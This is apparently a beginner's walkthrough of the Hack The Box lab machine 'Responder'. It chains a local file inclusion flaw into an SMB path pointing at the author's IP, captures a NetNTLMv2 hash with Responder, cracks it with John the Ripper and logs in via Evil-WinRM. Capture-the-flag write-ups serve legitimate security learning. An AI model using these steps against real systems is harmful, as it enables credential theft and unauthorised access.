


I began, as usual, with an Nmap version scan and discovered two open ports: port 80 and port 5985 (Windows Remote Management, or WinRM).
First, I tried to access the website on port 80, but it could not be loaded. Therefore, I decided to explore different directories on the website. I used dirb and gobuster to find directories. While these tools identified some directories, I did not find anything particularly interesting.
Since I could not find any way to access the website, I referred to the HTB guide. There, I learned that this website uses name-based virtual hosting, which means that multiple domain names are hosted on a single IP address. The browser does not know how to resolve unika.htb because it lacks an entry for it. That’s why I am using this command to create an entry on my system that will be used by the browser when I access the website.
Now I can access unika.htb. If I switch to another language, the website loads the page using the page parameter, which suggests it might be vulnerable to Local File Inclusion (LFI).
LFI (Local File Inclusion) means that if the page parameter is not sanitized, it is possible to navigate through directories using directory traversal sequences like ../ to access files on the system. In this case, knowing it's a Windows machine, I could use this wordlist or try to access WINDOWS\System32\drivers\etc\hosts, which is one of the most common files a penetration tester might attempt to access.
As seen above, I can access internal system files. This indicates that PHP is using include(), which allows one PHP file to include and execute the content of another PHP file. Since I know the target system is using Windows, there is potential for including a file on the target system through a protocol like SMB. Windows may attempt to authenticate to my machine, which makes it possible to capture NetNTLMv2 credentials. Therefore, I use Responder to create a malicious SMB server that can capture these hashes from the target.
Next, I need to verify that Responder is correctly set up and listening for SMB requests, which I can do by checking the Responder.conf file using the cat command.
I start the Responder tool with python3 Responder.py -I tun0. The -I flag specifies which network interface Responder should listen on.
It took me over an hour to obtain the NTLMv2-SSP hash. Initially, I encountered issues because I was inputting the wrong IP address in the URL. To capture the hash, I needed to use my own IP address, like http://unika.htb/?page=//10.10.14.136/somefile, but I mistakenly used my eth0 IP address. As a result, Responder wasn't capturing any traffic. After realizing the mistake, I adjusted Responder to listen on eth0. However, this didn't resolve the issue, so I switched back to using tun0 and the corresponding IP address. Unfortunately, this also did not work. I then considered that the issue might be related to my Kali Linux virtual machine's network configuration. Initially set to NAT, I changed it to a Bridged adapter and repeated the process, but still without success. Ultimately, I switched to the Pwnbox on Hack The Box, and it worked on the first attempt. I'm not sure why my Kali Linux setup failed, but the hash is displayed in the picture below.
In this picture, I am using my own IP address (http://unika.htb/?page=//10.10.14.136/somefile) to direct the target server to access the SMB share hosted on my attacking machine. The intention is to have Responder capture the NTLMv2 hash as the target server attempts to connect to the SMB service.
Now I save the hash to hash.txt using the > redirect symbol.
This file can be used with the John the Ripper tool to crack the password for the administrator account. But first, I need to unzip my rockyou.txt.gz file.
With the command 'john -w=/usr/share/wordlists/rockyou.txt hash.txt', the John the Ripper tool will try every password from the rockyou.txt file, encrypting the challenge with each password. If the result matches the hash, it has found the correct password. In this case, the password is 'badminton.'
Finally, it’s time to get the flag hidden inside WinRM. With the tool Evil-WinRM, I can log in and obtain the flag.txt file there.